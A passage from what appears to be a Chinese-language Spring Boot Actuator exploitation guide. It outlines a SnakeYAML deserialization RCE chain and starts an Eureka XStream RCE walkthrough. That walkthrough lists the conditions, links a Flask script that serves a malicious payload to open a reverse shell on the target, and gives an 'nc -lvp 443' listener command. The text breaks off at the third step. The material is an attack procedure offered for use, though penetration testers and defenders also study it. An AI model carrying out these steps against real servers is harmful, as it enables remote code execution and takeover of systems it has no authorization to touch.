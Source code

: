1. spring.cloud.bootstrap.location 属性被设置为外部恶意 yml 文件 URL 地址
2. refresh 触发目标机器请求远程 HTTP 服务器上的 yml 文件，获得其内容
3. SnakeYAML 由于存在反序列化漏洞，所以解析恶意 yml 内容时会完成指定的动作
4. 先是触发 java.net.URL 去拉取远程 HTTP 服务器上的恶意 jar 文件
5. 然后是寻找 jar 文件中实现 javax.script.ScriptEngineFactory 接口的类并实例化
6. 实例化类时执行恶意代码，造成 RCE 漏洞



#### 漏洞分析：

​	[Exploit Spring Boot Actuator 之 Spring Cloud Env 学习笔记](https://b1ngz.github.io/exploit-spring-boot-actuator-spring-cloud-env-note/)



#### 漏洞环境：

[repository/springcloud-snakeyaml-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springcloud-snakeyaml-rce)

正常访问：

```
http://127.0.0.1:9092/env
```



### 0x03：eureka xstream deserialization RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用的  `eureka-client` < 1.8.7（通常包含在 `spring-cloud-starter-netflix-eureka-client` 依赖中）
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）



#### 利用方法：

##### 步骤一：架设响应恶意 XStream payload 的网站

提供一个依赖 Flask 并符合要求的 [python 脚本示例](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)，作用是利用目标 Linux 机器上自带的 python 来反弹shell。

使用 python 在自己控制的服务器上运行以上的脚本，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。



##### 步骤二：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvp 443
```



##### 步骤三：设置 eureka.client.serviceUrl.defaultZone 属性
